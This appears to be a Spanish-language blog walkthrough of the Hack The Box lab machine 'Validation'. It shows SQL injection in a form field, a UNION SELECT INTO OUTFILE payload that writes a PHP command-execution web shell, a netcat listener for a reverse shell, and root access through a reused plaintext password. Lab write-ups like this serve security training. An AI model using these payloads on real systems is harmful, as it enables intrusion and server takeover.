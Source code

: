 ```yaml
---
layout: post
title: Maquina Validation
date: 2022-07-8 19:50:20 +0200
description: Máquina Validation de Hack the Box # Add post description (optional)
img: validation.png # Add image post (optional)
fig-caption: # Add figcaption (optional)
tags: [validation, linux, sqli, rce, reverse shell, php]
---
```


Validation es una maquina linux de nivel fácil en hack the box pero que me pareció muy curiosa por su remote code execution.

*********************************
# Enumeración

Tiramos el Nmap:

![nmap]({{site.baseurl}}/assets/img/Validation/2022-07-11_171337.png)

Vemos varios puertos abiertos, entre ellos el 80 y el 8080 vamos a echar un vistazo.

Vemos una pagina que nos lleva a account.php, parece una especie de inscripción donde podemos meter nuestro nombre y tiene una lista de países.
Ponemos un nombre y va almacenando los nombres que pongamos en el país seleccionado, tiene pinta de ser una base de datos, vamos a ver mas con [burpsuite](https://portswigger.net/burp).

Interceptamos una petición y vemos que esta enviando el nombre que nosotros pongamos junto con el país elegido, también podemos ver que nos da una cookie de user que es el nombre que le hemos metido en md5. Vamos a probar si se acontece una inyección sql.

Probamos poniendo una comilla en nuestro nombre, dejamos correr la petición y nada, no nos da ningún error, el campo user no es inyectable, pero si probamos con el campo país ahí si nos lanza un error, eso significa que el campo es inyectable. [Aquí](https://portswigger.net/web-security/sql-injection) tenemos buena información sobre sqli.

Después de descubrir los nombres de tablas columnas etc.. llegamos a una via muerta, nada util, los nombres de usuario y los userhash son los mismos que nos aparecían en la cookie de usuario, el nombre en md5.

![hashes]({{site.baseurl}}/assets/img/Validation/2022-07-11_183053.png)

*****************************
# Rce mediante Sqli

Podemos probar a ver si tenemos capacidad de incluir ficheros en la máquina, sabemos que la máquina ejecuta php y quizá podamos aprovecharnos de eso. Probamos con un union select:

> username=test&country=Brazil' union select "test" into outfile "/var/www/html/test.txt"-- -

Metemos la palabra test dentro del archivo test.php en la ruta /var/www/html y después de recargar la pagina vemos que funciona.

![Test]({{site.baseurl}}/assets/img/Validation/2022-07-11_184527.png)

Bien¡ podemos meter un archivo en php y poder tener inyección remota de comandos¡.

> username=test&country=Brazil' union select "<?php system($_REQUEST['cmd']) ?>" into outfile "/var/www/html/test.php"-- -

Con esto tendremos el archivo test.php que al ser llamado ejecutara un request al sistema con la variable cmd que nosotros metamos. Probamos con un whoami y vemos que somos www-data, el rce funciona.

![Rce]({{site.baseurl}}/assets/img/Validation/2022-07-11_194440.png)

Solo nos queda ponernos en escucha con netcat en nuestra máquina por el puerto que queramos y lanzar una shell desde la paginas o el burpsuite.

> nc -lnvp 1234

![Reverse]({{site.baseurl}}/assets/img/Validation/2022-07-11_194455.png)

Ya estamos dentro, usaremos python o para tener una consola util y podemos ver la flag de usuario.

>python3 -c "__import__('pty').spawn('/bin/bash')"

Información importante, [Payloads all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md), la biblia del hacking.

# Escalada de privilegios.

ya dentro de la máquina y con una consola real, procedemos a la enumeración.

Podemos usar estos [recursos](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md).

Después de echar un vistazo en el propio directorio de www demos que hay una pagina config.php con contraseñas en claro. No puede ser tan fácil, probamos la contraseña como root con su y si¡ es asi de fácil somos root ya podemos ver la flag.

![Root]({{site.baseurl}}/assets/img/Validation/2022-07-11_195548.png)

********************************

Hasta aquí la máquina Validation una máquina con una escalada de privilegios muy sencilla pero una intrusión muy interesante para ver otras formas de sqli. 

!Nos vemos¡.

